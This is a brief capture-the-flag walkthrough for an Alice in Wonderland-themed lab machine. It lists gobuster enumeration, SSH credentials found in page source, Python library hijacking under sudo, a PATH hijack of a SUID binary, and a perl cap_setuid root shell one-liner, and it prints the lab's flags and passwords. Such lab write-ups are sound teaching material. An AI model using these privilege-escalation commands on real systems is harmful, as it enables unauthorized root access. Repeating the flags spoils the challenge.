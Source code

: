 # User.txt

gobuster to go down the rabbit hole `ip/r/a/b/b/i/t`  
ssh credentials in the source code `alice:HowDothTheLittleCrocodileImproveHisShiningTail`  
`sudo -l` shows that the python file can be executed as sudo  
python file that fetches the random library -> replace the random.py file with a custom one `import os; os.system("/bin/bash")`  
`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`  
user.txt in /root/user.txt  

<details>
<summary>user.txt</summary>
thm{"Curiouser and curiouser!"}
</details>

# root.txt

download the teaParty file `python3 -m http.server` `wget 10.10.24.255:8000/teaParty`  
decompile the file with ghidra  
see that it calls the date library which is stored in /usr/bin  
create a file called date in /tmp `#!/bin/bash; /bin/bash` -> this file gets called with the suid bit set --> make the file executable  
write /tmp to the path `export PATH=/tmp:$PATH` so that it is before /usr/bin --> our file gets found and executed before the original date file  
execute the teaparty file and get hatter's credentials `hatter:WhyIsARavenLikeAWritingDesk?`  
ssh in as hatter  


get linpeas to the machine with a simple python http server  
linpeas shows a perl capability vulnerability `/usr/bin/perl5.26.1 = cap_setuid+ep`  
gtfo --> perl --> capabilities --> `/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`  
root.txt in /home/alice  

<details>
<summary>root.txt</summary>
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
</details>